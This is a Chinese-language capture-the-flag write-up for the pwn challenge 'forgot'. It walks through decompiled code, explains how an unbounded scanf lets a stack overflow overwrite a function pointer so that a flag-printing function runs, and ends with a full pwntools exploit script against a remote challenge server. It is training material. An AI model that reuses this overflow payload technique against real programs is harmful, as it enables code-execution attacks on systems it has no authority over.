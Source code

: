 xman_pwn_forgot

反汇编发现

```c
  __isoc99_scanf("%s", &v2);
  for ( i = 0; ; ++i )
  {
    v0 = i;
    if ( v0 >= strlen((const char *)&v2) )
      break;
    switch ( v14 )
    {
      case 1:
        if ( sub_8048702(*((char *)&v2 + i)) )
          v14 = 2;
        break;
      case 2:
        if ( *((_BYTE *)&v2 + i) == 64 )
          v14 = 3;
        break;
      case 3:
        if ( sub_804874C(*((char *)&v2 + i)) )
          v14 = 4;
        break;
      case 4:
        if ( *((_BYTE *)&v2 + i) == 46 )
          v14 = 5;
        break;
      case 5:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 6;
        break;
      case 6:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 7;
        break;
      case 7:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 8;
        break;
      case 8:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 9;
        break;
      case 9:
        v14 = 10;
        break;
      default:
        continue;
    }
  }
 (*(&v3 + --v14))();
```

 `(*(&v3 + --v14))();`是函数指针调用，使v14变成10，v12变成sub_80486CC的地址就可以了(因为看到sub_80486CC这个函数里直接cat flag了)

```c
  size_t v0; // ebx
  int v2; // [esp-78h] [ebp-78h]
  int (*v3)(); // [esp-58h] [ebp-58h]
  int (*v4)(); // [esp-54h] [ebp-54h]
  int (*v5)(); // [esp-50h] [ebp-50h]
  int (*v6)(); // [esp-4Ch] [ebp-4Ch]
  int (*v7)(); // [esp-48h] [ebp-48h]
  int (*v8)(); // [esp-44h] [ebp-44h]
  int (*v9)(); // [esp-40h] [ebp-40h]
  int (*v10)(); // [esp-3Ch] [ebp-3Ch]
  int (*v11)(); // [esp-38h] [ebp-38h]
  int (*v12)(); // [esp-34h] [ebp-34h]
  int v13; // [esp-30h] [ebp-30h]
  signed int v14; // [esp-10h] [ebp-10h]
  size_t i; // [esp-Ch] [ebp-Ch]
```

> payload = 'a' * 0x44 + p32(0x080486CC) + 'a' * 0x20 + p32(0x8)

0x44:填充从v2开始填，v12到v2间隔0x44

0x20:v12地址改掉后距离v14间隔0x20

P32（0x8）：将v14在进入循环前设成0x8，由于填充字符串是a，满足`sub_8048784`函数的要求，所以循环结束时v14会被设成10，下面的函数指针的函数调用可以顺利调用到v12的函数

**这里不直接p32(0x9),p32(0xa)是因为0x9是\n,0xa是\t，p32(0x9)或者p32(0xa)之后查看内存会显示设成了ffffffff**
**有可能是因为scanf不能读入制表符（？）**

>0xff913afc:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b04:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b0c:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b14:	0x61	0x61	0x61	0x61	0xff	0xff	0xff	0xff

```c
解答：
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level="debug"
context.arch = "amd64"
pwn_file="./forgot"
#elf=ELF(pwn_file)
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    c=process(pwn_file)
    pid=c.pid
else:
    c=remote("111.198.29.45", 41935)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()


payload = 'a'*0x44 + p32(0x080486CC) + 'a'*0x20 + p32(0x8)

c.recvuntil(">")
c.sendline("bbb")
debug()
c.sendlineafter("> ", payload)

c.interactive()
```

